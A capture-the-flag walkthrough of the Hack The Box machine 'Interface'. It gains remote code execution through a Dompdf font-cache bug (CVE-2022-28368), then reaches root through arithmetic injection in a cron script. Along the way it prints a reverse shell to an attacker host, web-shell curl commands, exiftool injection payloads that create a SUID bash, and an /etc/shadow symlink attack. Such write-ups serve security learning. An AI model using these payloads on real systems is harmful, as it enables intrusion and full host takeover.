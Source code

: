 # HTB: Interface Walkthrough

## 🧠 Box Overview
**Name**: Interface  
**IP**: `10.10.11.200`  
**OS**: [Linux](Linux) 🐧  
**Difficulty**: Medium [30 Points]  
**Creator**: irogir  

### 💡 Summary
- Initial foothold via **Dompdf** file-write vulnerability (CVE-2022-28368) 📝
- RCE achieved through a poisoned font file + PHP shell 💥
- Privilege escalation through **arithmetic expression injection** in a Bash cleanup script 👑
- Alternative root path using symbolic links to overwrite `/etc/shadow` (patched) 🔒

---

## 🕵️ Recon

### 🔎 Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.200
nmap -p 22,80 -sCV 10.10.11.200
```
**Findings:**
- Open ports: `22` (SSH) and `80` (HTTP)
- Ubuntu 18.04
- Web server: nginx + Next.js (frontend React)

---

## 🌐 Web Enumeration

### Interface.htb
- Only shows "Site under maintenance" 🛠️
- Headers include: `X-Powered-By: Next.js`
- CSP reveals subdomain: `prd.m.rendering-api.interface.htb`

### Subdomain Discovery
```bash
ffuf -u http://10.10.11.200 -H "Host: FUZZ.interface.htb" -w subdomains-top1million-5000.txt --fs 6359
```

Add to `/etc/hosts`:
```
10.10.11.200 interface.htb prd.m.rendering-api.interface.htb
```

### prd.m.rendering-api.interface.htb
- Returns `File not found.` on `/`
- Directory brute force with feroxbuster reveals `/vendor` with `403`

### Deeper Enumeration
```bash
feroxbuster -u http://prd.m.rendering-api.interface.htb/vendor/
```
Reveals:
- `/vendor/dompdf`
- `/vendor/composer`

Suggests this is a **PHP app** using **dompdf** 🧾

---

## 🔍 API Discovery

### Brute Forcing `/api` endpoint
```bash
ffuf -u http://prd.m.rendering-api.interface.htb/FUZZ -w raft-medium-words.txt -mc all -fs 0
```
Finds `/api`, which returns:
```json
{"status":"404","status_text":"route not defined"}
```

Then brute force subroutes with POST:
```bash
ffuf -X POST -u http://prd.m.rendering-api.interface.htb/api/FUZZ -w raft-medium-words.txt -mc all -fs 50
```
Finds: `/api/html2pdf`

### PDF Generator (Dompdf)
- Vulnerable to CVE-2022-28368
- `html` parameter used to render user-supplied HTML to PDF

---

## 🎯 Initial Foothold via RCE

### Exploit Strategy:
1. Use **CSS `@font-face`** to reference a remote `.php` file pretending to be a font file
2. Inject PHP code inside font file comments
3. Trigger dompdf to cache the file on the server
4. Access the cached file directly to trigger the PHP shell

### Key Payloads
```php
@font-face {
  font-family:'exploitfont';
  src:url('http://<attacker-ip>/exploit_font.php');
}
```
```bash
echo -n "http://<attacker-ip>/exploit_font.php" | md5sum
# Use hash to build path:
/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_<hash>.php
```
Execute commands:
```bash
curl -s --data-urlencode 'cmd=id' http://target/fonts/exploitfont_normal_<hash>.php
```
Reverse shell:
```bash
cmd=bash -c "bash -i >& /dev/tcp/<attacker-ip>/443 0>&1"
```

Shell acquired as: `www-data`

---

## 🧱 Privilege Escalation - Arithmetic Expression Injection

### Enumeration with pspy
Reveals cron job:
```bash
/usr/local/sbin/cleancache.sh (every 2 min)
```
Script content:
```bash
meta_producer=$(exiftool -Producer "$file")
if [[ "$meta_producer" -eq "dompdf" ]]; then
  rm "$file"
fi
```

### Exploiting `-eq` with malicious Producer:
```bash
exiftool -Producer='x[$(touch${IFS}/tmp/rootshell)]' /tmp/testfile
```
Root-created `/tmp/rootshell` appears after 2 mins ✅

### Full Root Shell
```bash
exiftool -Producer='x[$(cp${IFS}/bin/bash${IFS}/tmp/bashroot;chmod${IFS}4777${IFS}/tmp/bashroot)]' /tmp/triggerfile
```
```bash
/tmp/bashroot -p
```

You are now root! 🎉

---

## 🔓 Beyond Root - Symbolic Link Abuse (Patched)

### Original cron:
```bash
cp /root/font_cache/dompdf_font_family_cache.php /var/www/.../fonts/dompdf_font_family_cache.php
chown www-data ...
```
### Exploit:
- Replace `dompdf_font_family_cache.php` with symlink to `/etc/shadow`
- Wait for cron to overwrite and change ownership
- Insert malicious root hash
- `su -` as root using new password 🔑

**Patched version** copies to safe path and chowns first, preventing symlink attacks 🛡️

---

## 📚 Learnings
- dompdf vulnerabilities and font injection are a valid RCE vector
- Bash's `[[ var -eq string ]]` quirks can be weaponized
- Cron jobs are powerful escalation opportunities when scripts are sloppy
- Symbolic links are dangerous when blindly used with root privileges

---

If you liked this write-up, check out more from [0xdf](https://0xdf.gitlab.io)! 🧠🖥️🍩

